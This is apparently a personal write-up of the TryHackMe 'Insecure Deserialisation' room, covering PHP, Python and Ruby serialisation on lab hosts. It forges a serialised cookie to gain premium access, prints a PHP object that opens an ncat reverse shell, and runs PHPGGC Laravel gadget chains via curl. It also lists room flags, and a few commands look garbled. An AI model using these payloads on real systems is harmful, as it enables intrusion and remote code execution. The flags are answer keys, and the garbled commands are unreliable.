



## Introduction

This post provides a detailed walkthrough of the TryHackMe room "Insecure Deserialisation," which explores one of the most critical yet underestimated web application vulnerabilities. Insecure deserialisation was ranked as A8 in the OWASP Top 10 2017 and can lead to remote code execution, denial-of-service attacks, and other severe security impacts.

Throughout this room, I learned that user-supplied input has consistently been a catalyst for vulnerabilities, posing persistent threats across numerous platforms and applications. While I was already familiar with exploiting user input through SQL injection and cross-site scripting, insecure deserialisation represented a less understood but equally dangerous vulnerability that can have catastrophic consequences.

What struck me most was understanding that the fundamental issue with deserialisation is that the process does not discriminate—it will deserialize any object that the application might have access to. This blind trust in serialised data creates opportunities for attackers to manipulate objects, inject malicious payloads, and achieve remote code execution.


**Learning Objectives**

- Understanding how serialisation and deserialisation processes work.
- Identifying potential risks to web applications.
- Mastering exploitation techniques across different programming languages.
- Implementing effective mitigation measures.
- Recognizing insecure deserialisation patterns in real-world applications.

> **Answer:** `No answer needed`

## Task 2: Some Important Concepts


What is the function used in PHP for serialisation?
> **Answer:** `serialize()` <br>
PHP uses the serialize() function to convert objects into a storable representation and unserialize() to reconstruct them. The serialised format is human-readable and follows a specific pattern that can be manipulated by attackers.

What is the base score for the vulnerability CVE-2015-4852?
> **Answer:** `7.5`

Does serialisation allow only saving to a byte stream file? (yea/nay)
> **Answer:** `nay`


## Task 3: Serialisation Formats


What is the base64 encoded output after pickling the string You got it in Python? Utilise the notes app found at http://10.10.248.109:5000.
I visited the notes application at `http://10.10.248.109:5000` and serialised the string "You got it" using Python's pickle module, and got the following output:
> **Answer:** `gASVNQAAAAAAAACMCF9fbWFpbl9flIwFTm90ZXOUk5QpgZR9lIwFbm90ZXOUXZSMCllvdSBnb3QgaXSUYXNiLg==`


What is the output after serialising the string You got it in PHP?
In http://10.10.248.109/phptest/
When I tested with "You got it" at `http://10.10.248.109/phptest/`, I observed:
- `O:5:"Notes"` - Object with 5-character class name "Notes"
- `1:{}` - Object has 1 property
- `s:7:"content"` - String property named "content" (7 characters)
- `s:10:"You got it"` - String value "You got it" (10 characters)

> **Answer:** `O:5:"Notes":1:{s:7:"content";s:10:"You got it";}`


What is the renowned binary serialisation module used in Ruby?
> **Answer:** `Marshal` <br>
Marshal can serialize most Ruby objects and is commonly used in Ruby on Rails applications for session storage and caching.


## Task 4: Identification
Visit the URL http://10.10.248.109/who/index.php and identify what is the user-defined function used for serialisation?

I examined the application at `http://10.10.248.109/who/index.php`, I observed serialised PHP data:
```php
O:4:"Test":2:{s:4:"name";s:3:"THM";s:3:"age";i:30;}
```
{: file="PHP data"}

By accessing the backup file at `http://10.10.248.109/who/index.php~`, I was able to examine the application's source code and discovered:
```php
name = $name; $this->age = $age; } } function HelloTHMSerialization($obj) { return serialize($obj); } $obj = new Test("THM", 30); $serializedData = HelloTHMSerialization($obj); echo $serializedData; ?> 
```
{: file="PHP serialized data"}

> **Answer:** `HelloTHMSerialization`


## Task 5: Exploitation - Update Properties

What is the flag value after sharing a note with a valid subscription?

Using browser developer tools (F12 → Storage tab), I examined the initial cookie value and found:
<figure class="text-center">
  
  <figcaption><em>Innitial cookie value</em></figcaption>
</figure>


To gain access to premium features, I modified the `isSubscribed` property from `b:0` (false) to `b:1` (true):
```php
O:5:"Notes":3:{s:4:"user";s:5:"guest";s:4:"role";s:5:"guest";s:12:"isSubscribed";b:0;}
```
{: file="Innitial deserialized cookie value"}

I base64 encoded the modified serialised data and replaced the original cookie with:
`Tzo1OiJOb3RlcyI6Mzp7czo0OiJ1c2VyIjtzOjU6Imd1ZXN0IjtzOjQ6InJvbGUiO3M6NToiZ3Vlc3QiO3M6MTI6ImlzU3Vic2NyaWJlZCI7YjoxO30=`.

After refreshing the page and clicking the "Share" button, I observed that the application granted me access to premium features, revealing the flag.
> **Answer:** `THM{10101}`


What is the default role value once the user loads the notes application?

As it was explicite in the deseralized cookie value:
> **Answer:** `guest`

## Task 6: Exploitation - Object Injection

What is the flag value after getting the reverse shell?

To achieve RCE, TryHackMe gives a php code to create a malicious class that executes system commands:
```php
<?php
class MaliciousUserData {
public $command = 'ncat -nv 10.10.195.994444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

<figure class="text-center">
  
  <figcaption><em>Index php file</em></figcaption>
</figure>


On my attack machine, I started a netcat listener: `nc -nvlp 4444`.

I navigated to the vulnerable endpoint with my base64-encoded payload: `http://10.10.195.99/case2/?decode=[SHELLCODE]`


<figure class="text-center">
  
  <figcaption><em>Browser view of php BASE64_PAYLOAD</em></figcaption>
</figure>

After this, the application deserialised my malicious object, triggering the reverse shell connection back to my machine. Soo, in the cmd I could see the flag:
> **Answer:** `THM{GOT_THE_SH#LL}`


What is the output of the whoami command after getting the shell?
> **Answer:** `www-data`

## Task 7: Automation Scripts

What is the vector for exploiting CodeIgniter4/FR1 as per the PHPGGC?
In the terminal run the command`php -l CodeIgniter4/FR1` and get information.

> **Answer:** `_toString`


What is the output of the whoami command on the vulnerable Laravel application?
First I enter in `http://10.10.53.217:8089/get-key` and get the key.

Then I generated the appropriate payload using PHPGGC:
```bash
php phpggc Laravel/RCE3 system 'whoami'
```
{: file="Whoami command to the vulnerable Laravel application"}

And in the cmd I executed the payload with the obtained key:
```bash
curl 10.10.159.99:8089 -X POST -H 'X-XSRF-TOKEN: key' ! head -n 2 
```
{: file="Payload to the vulnerable Laravel application"}

And got the name:
> **Answer:** `root`


What is the output of the uname -r command on the vulnerable Laravel application?

I started by running the command `php phpggc -b Laravel/RCE3 system ‘uname -r’`, which will give the Base64 encoded payload.

Then, I translated it to XSRF Token value in the url `http://10.10.159.99:8089/cve.php?app_key=[KEY]` and excute the command in the cmd:
```bash
curl 10.10.159.99:8089 -X POST -H 'X-XSRF-TOKEN: [XSRFTokenKey]' ! head -n 2 
```
{: file="uname -r command on the vulnerable Laravel application"}


> **Answer:** `5.15.0–1075-aws`


## Task 8: Mitigation Measures

Is it a good practice to blindly use the eval() function in your code? (yea/nay)
> **Answer:** `nay` <br>
Avoid using eval() and exec() functions, as they can execute arbitrary code and pose a significant security risk.

## Task 9: Conclusion

The Insecure Deserialisation room effectively demonstrates one of the most critical yet underestimated web application vulnerabilities. Originally ranked as A8 in the OWASP Top 10 2017, insecure deserialisation has been incorporated into the broader category of "Software and Data Integrity Failures" in the 2021 edition, highlighting its continued relevance in modern web application security.

> **Answer:** `No answer needed`
